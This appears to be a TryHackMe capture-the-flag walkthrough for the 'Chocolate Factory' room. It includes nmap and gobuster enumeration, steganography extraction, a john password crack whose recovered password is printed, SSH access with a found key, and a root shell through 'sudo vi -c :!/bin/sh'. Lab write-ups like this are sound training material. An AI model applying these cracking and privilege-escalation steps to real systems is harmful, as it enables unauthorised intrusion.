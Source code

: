```yaml
---

title: Walkthrough - Chocolate Factory
published: True
---
```


Find hidden keys, python programs and use base in A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.137 -vvv``
- ``sudo nmap -sV -sT -sC -p21,22,80``

```shell 
PORT    STATE SERVICE    REASON
21/tcp  open  ftp        syn-ack ttl 61
22/tcp  open  ssh        syn-ack ttl 61
80/tcp  open  http       syn-ack ttl 61
100/tcp open  newacct    syn-ack ttl 61
101/tcp open  hostname   syn-ack ttl 61
102/tcp open  iso-tsap   syn-ack ttl 61
103/tcp open  gppitnp    syn-ack ttl 61
104/tcp open  acr-nema   syn-ack ttl 61
105/tcp open  csnet-ns   syn-ack ttl 61
106/tcp open  pop3pw     syn-ack ttl 61
107/tcp open  rtelnet    syn-ack ttl 61
108/tcp open  snagas     syn-ack ttl 61
109/tcp open  pop2       syn-ack ttl 61
110/tcp open  pop3       syn-ack ttl 61
111/tcp open  rpcbind    syn-ack ttl 61
112/tcp open  mcidas     syn-ack ttl 61
113/tcp open  ident      syn-ack ttl 61
114/tcp open  audionews  syn-ack ttl 61
115/tcp open  sftp       syn-ack ttl 61
116/tcp open  ansanotify syn-ack ttl 61
117/tcp open  uucp-path  syn-ack ttl 61
118/tcp open  sqlserv    syn-ack ttl 61
119/tcp open  nntp       syn-ack ttl 61
120/tcp open  cfdptkt    syn-ack ttl 61
121/tcp open  erpc       syn-ack ttl 61
122/tcp open  smakynet   syn-ack ttl 61
123/tcp open  ntp        syn-ack ttl 61
124/tcp open  ansatrader syn-ack ttl 61
125/tcp open  locus-map  syn-ack ttl 61

21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- ``gobuster dir -u http://10.10.192.137/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- the ftp we find a picture of wrigleys gum
- using ``stegseek`` we can get a base64 encrypted textfile. we can use ``base64 -d`` on it and we see its a user:pass list with charlie. lets crack.
- ``john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chocolate-Factory]
└─$ john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cn7824           (charlie)     
1g 0:00:06:41 DONE (2022-07-29 04:42) 0.002489g/s 2451p/s 2451c/s 2451C/s cocker6..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- we can login to the http server page with these creds and it brings us to a page where we can execute commands remotely
- and ``ls`` shows us the files we can wget over to our machine.
- checking ``key_rev_key`` looks like we need a name to open the file to get a key. But trying every name I cant find anything. 
- checking the home directory we can find a ssh key with no password we can use to ssh in with charlie.

* * * 

## Enter the key you found!

- Using ``strings`` we can find the name and the key.

* * * 

## What is Charlie's password?

- we found this already with stegseek

* * * 

## change user to charlie

- login to ssh with the non password protected rsa key

* * * 

## Enter the user flag

- ``cat user.txt``

* * * 

## Enter the root flag

```shell
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

- we can privesc with vim
- ``sudo vi -c ':!/bin/sh' /dev/null``
- ``python /root/rooy.py`` and enter the key we found with ``strings`` on ``key_rev_key``

![](/assets/chocolate-factory01.png)

* * * 


